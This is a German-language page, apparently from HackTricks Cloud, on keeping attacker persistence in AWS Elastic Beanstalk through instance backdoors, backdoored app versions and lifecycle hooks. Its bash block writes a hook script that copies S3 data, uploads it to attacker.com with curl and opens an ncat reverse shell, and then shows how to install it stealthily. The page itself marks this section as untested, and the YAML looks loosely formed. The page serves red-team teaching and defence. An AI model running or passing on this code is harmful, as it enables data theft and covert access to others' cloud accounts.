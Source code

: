 # AWS - Elastic Beanstalk Persistence

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositorys einreichen.

</details>

## Elastic Beanstalk

Für weitere Informationen siehe:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

### Persistenz in der Instanz

Um die Persistenz im AWS-Konto aufrechtzuerhalten, könnte ein **Persistenzmechanismus innerhalb der Instanz eingeführt werden** (Cron-Job, SSH-Schlüssel...), damit der Angreifer darauf zugreifen und IAM-Rollen-**Anmeldeinformationen aus dem Metadatendienst stehlen** kann.

### Hintertür in der Version

Ein Angreifer könnte den Code im S3-Repository so manipulieren, dass er immer seine Hintertür ausführt und den erwarteten Code.

### Neue hintertürige Version

Anstatt den Code in der aktuellen Version zu ändern, könnte der Angreifer eine neue hintertürige Version der Anwendung bereitstellen.

### Missbrauch von benutzerdefinierten Ressourcen-Lebenszyklus-Hooks

{% hint style="info" %}
TODO: Test
{% endhint %}

Elastic Beanstalk bietet Lebenszyklus-Hooks, mit denen Sie benutzerdefinierte Skripte während der Instanzbereitstellung und -beendigung ausführen können. Ein Angreifer könnte **einen Lebenszyklus-Hook konfigurieren, um periodisch ein Skript auszuführen, das Daten exfiltriert oder den Zugriff auf das AWS-Konto aufrechterhält**.

```bash
bashCopy code# Attacker creates a script that exfiltrates data and maintains access
echo '#!/bin/bash
aws s3 cp s3://sensitive-data-bucket/data.csv /tmp/data.csv
gzip /tmp/data.csv
curl -X POST --data-binary "@/tmp/data.csv.gz" https://attacker.com/exfil
ncat -e /bin/bash --ssl attacker-ip 12345' > stealthy_lifecycle_hook.sh

# Attacker uploads the script to an S3 bucket
aws s3 cp stealthy_lifecycle_hook.sh s3://attacker-bucket/stealthy_lifecycle_hook.sh

# Attacker modifies the Elastic Beanstalk environment configuration to include the custom lifecycle hook
echo 'Resources:
AWSEBAutoScalingGroup:
Metadata:
AWS::ElasticBeanstalk::Ext:
TriggerConfiguration:
triggers:
- name: stealthy-lifecycle-hook
events:
- "autoscaling:EC2_INSTANCE_LAUNCH"
- "autoscaling:EC2_INSTANCE_TERMINATE"
target:
ref: "AWS::ElasticBeanstalk::Environment"
arn:
Fn::GetAtt:
- "AWS::ElasticBeanstalk::Environment"
- "Arn"
stealthyLifecycleHook:
Type: AWS::AutoScaling::LifecycleHook
Properties:
AutoScalingGroupName:
Ref: AWSEBAutoScalingGroup
LifecycleTransition: autoscaling:EC2_INSTANCE_LAUNCHING
NotificationTargetARN:
Ref: stealthy-lifecycle-hook
RoleARN:
Fn::GetAtt:
- AWSEBAutoScalingGroup
- Arn' > stealthy_lifecycle_hook.yaml

# Attacker applies the new environment configuration
aws elasticbeanstalk update-environment --environment-name my-env --option-settings Namespace="aws:elasticbeanstalk:customoption",OptionName="CustomConfigurationTemplate",Value="stealthy_lifecycle_hook.yaml"
```

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
